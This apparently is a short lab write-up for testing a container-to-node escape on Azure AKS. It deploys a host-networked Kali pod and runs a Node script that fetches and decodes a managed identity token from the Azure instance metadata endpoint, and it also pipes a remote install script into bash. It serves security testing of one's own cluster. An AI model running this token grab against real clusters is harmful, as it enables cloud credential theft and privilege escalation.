

# Test Container to Node escape

**Prereqs**

In Azure CLI have cluster ready and kubectl installed  (these depedencies are not explored further in this post)

```sh
az aks create -n myAKSCluster -g myResourceGroup --enable-addons azure-keyvault-secrets-provider --enable-managed-identity
az aks get-credentials --resource-group $NAMER --name $NAME --admin
```

**Kali image**

- save image to spec.yaml


```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kali
  labels:
    app: kali
spec:
  containers:
  - name: kali
    image: kalilinux/kali-rolling
    command:
        - "/bin/sleep"
        - "10000"
  hostNetwork: true
  dnsPolicy: Default
```

```sh
kubectl apply -f spec.yaml
kubectl exec --stdin --tty kali -- /bin/bash

```

---

# Once in KALI Shell

```sh
apt update -y;
apt install curl -y;


curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash

export NVM_DIR="$([ -z "${XDG_CONFIG_HOME-}" ] && printf %s "${HOME}/.nvm" || printf %s "${XDG_CONFIG_HOME}/nvm")"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh" # This loads nvm

nvm install 14

nvm use 14

mkdir getToken

cd getToken

echo '
{
  "name": "imds",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "axios": "^0.27.2",
    "jsonwebtoken": "^8.5.1"
  }
}
' > package.json

npm install

echo '

const { default: axios } = require("axios");
const { decode } = require("jsonwebtoken");

getToken()
async function getToken () {

    let options ={
        url:"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com",
        headers:{
            metadata:true
        }
    }
    let {data} = await axios(options).catch(error => console.log(error?.response?.data || error))
    console.log(data)
    console.log(decode(data?.access_token))
}

' > getToken.js

node getToken.js

```

**Expected end result**

  
